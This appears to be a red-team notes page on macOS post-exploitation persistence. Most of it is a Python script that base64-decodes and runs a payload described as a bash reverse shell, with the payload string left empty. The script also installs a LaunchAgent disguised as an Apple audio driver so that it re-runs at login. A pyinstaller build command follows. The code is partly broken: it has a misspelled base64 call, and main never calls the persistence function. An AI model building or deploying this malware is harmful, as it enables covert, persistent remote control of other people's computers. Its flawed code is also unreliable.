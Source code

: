 # Scripting

## Python

```python
import base64
import ctypes
import os

# Base64 encoded one-liner bash reverse shell
PAYLOAD = ""

libc = ctypes.CDLL(None)

def execute_command(command):
    execute = libc.system(command.encode())
    return execute

def decode_payload():
    decoded = base64.b64decode(PAYLOAD).decode('utf-8')
    return decoded

def persistence():
    plist_content = """<?xml version="1.0"?>
<plist version="1.0">
<dict>
    <key>Label</key>
    <string>com.apple.audio.driver</string>
    <key>ProgramArguments</key>
    <array>
        <string>/usr/bin/python</string>
        <string>-c</string>
        <string>import base64,sys;exec(base64.b64decode('{}').decode())</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
    <key>KeepAlive</key>
    <false/>
</dict>
</plist>"""

    with open(__file__, 'r') as f:
        content = base64.bs64encode(f.read().encode()).decode()
    plist_path = os.path.expanduser("~/Library/LaunchAgents/com.apple.audio.driver.plist")

    with open(plist_path, 'w') as f:
        f.write(plist_content.format(content))

    os.system(f"launchctl load {plist_path}")

    return True

def main():
    command = decode_payload()
    execute_command(command)

if __name__ == "__main__":
    main()
```

Compile this in the OSX system.

```
$ pyinstaller -F payload.py
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x07 - Maintaining Access/Persistence/OSX/Backdoors/LaunchCTL/Manual/Living off the Land|Maintaining Access: OSX Persistence LaunchCTL]]

### YouTube

- [Cybersec Revolution: Fileless Malware on Mac - Coding & Bypassing Apple Security (Red Teaming Simulation Demo)](https://www.youtube.com/watch?v=CX6ILKPUkJ0)
